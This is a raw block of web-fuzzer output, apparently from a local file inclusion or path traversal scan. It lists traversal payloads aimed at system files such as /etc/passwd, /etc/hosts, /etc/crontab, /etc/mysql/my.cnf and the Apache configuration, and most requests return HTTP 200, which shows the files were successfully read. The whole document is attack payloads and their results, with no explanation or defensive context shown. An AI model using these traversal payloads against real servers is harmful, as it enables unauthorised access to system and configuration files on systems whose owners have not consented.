 ```Shell
000000138:   200        62 L     62 W       818 Ch      "/etc/group"                                                                                                          
000000135:   200        11 L     82 W       496 Ch      "/etc/fstab"                                                                                                          
000000131:   200        23 L     206 W      1136 Ch     "/etc/crontab"                                                                                                        
000000129:   200        42 L     275 W      2377 Ch     "/etc/apt/sources.list"                                                                                               
000000121:   200        227 L    1115 W     7224 Ch     "/etc/apache2/apache2.conf"                                                                                           
000000118:   500        5 L      37 W       265 Ch      "../../../../../../../dev"                                                                                            
000000205:   200        9 L      27 W       250 Ch      "/etc/hosts"                                                                                                          
000000209:   200        17 L     111 W      711 Ch      "/etc/hosts.deny"                                                                                                     
000000206:   200        9 L      27 W       250 Ch      "../../../../../../../../../../../../etc/hosts"                                                                       
000000208:   200        10 L     57 W       411 Ch      "/etc/hosts.allow"                                                                                                    
000000237:   200        2 L      5 W        26 Ch       "/etc/issue"                                                                                                          
000000236:   200        355 L    1050 W     8181 Ch     "/etc/init.d/apache2"                                                                                                 
000000260:   200        36 L     50 W       1951 Ch     "../../../../../../../../../../../../../../../../../../../../etc/passwd"                                              
000000248:   200        23 L     134 W      839 Ch      "/etc/mysql/my.cnf"                                                                                                   
000000268:   200        36 L     50 W       1951 Ch     "../../../../../../../../../../../../etc/passwd"                                                                      
000000267:   200        36 L     50 W       1951 Ch     "../../../../../../../../../../../../../etc/passwd"                                                                   
000000266:   200        36 L     50 W       1951 Ch     "../../../../../../../../../../../../../../etc/passwd"                                                                
000000264:   200        36 L     50 W       1951 Ch     "../../../../../../../../../../../../../../../../etc/passwd"                                                          
000000263:   200        36 L     50 W       1951 Ch     "../../../../../../../../../../../../../../../../../etc/passwd"                                                       
000000265:   200        36 L     50 W       1951 Ch     "../../../../../../../../../../../../../../../etc/passwd"                                                             
000000262:   200        36 L     50 W       1951 Ch     "../../../../../../../../../../../../../../../../../../etc/passwd"                                                    
000000258:   200        36 L     50 W       1951 Ch     "../../../../../../../../../../../../../../../../../../../../../../etc/passwd"                                        
000000257:   200        36 L     50 W       1951 Ch     "/etc/passwd"                                                                                                         
000000259:   200        36 L     50 W       1951 Ch     "../../../../../../../../../../../../../../../../../../../../../etc/passwd"                                           
000000261:   200        36 L     50 W       1951 Ch     "../../../../../../../../../../../../../../../../../../../etc/passwd"                                                 
000000253:   200        36 L     50 W       1951 Ch     "/./././././././././././etc/passwd"                                                                                   
000000254:   200        36 L     50 W       1951 Ch     "/../../../../../../../../../../etc/passwd"                                                                           
000000249:   200        19 L     103 W      767 Ch      "/etc/netconfig"                                                                                                      
000000250:   200        20 L     63 W       510 Ch      "/etc/nsswitch.conf"                                                                                                  
000000271:   200        36 L     50 W       1951 Ch     "../../../../../../../../../etc/passwd"                                                                               
000000269:   200        36 L     50 W       1951 Ch     "../../../../../../../../../../../etc/passwd"                                                                         
```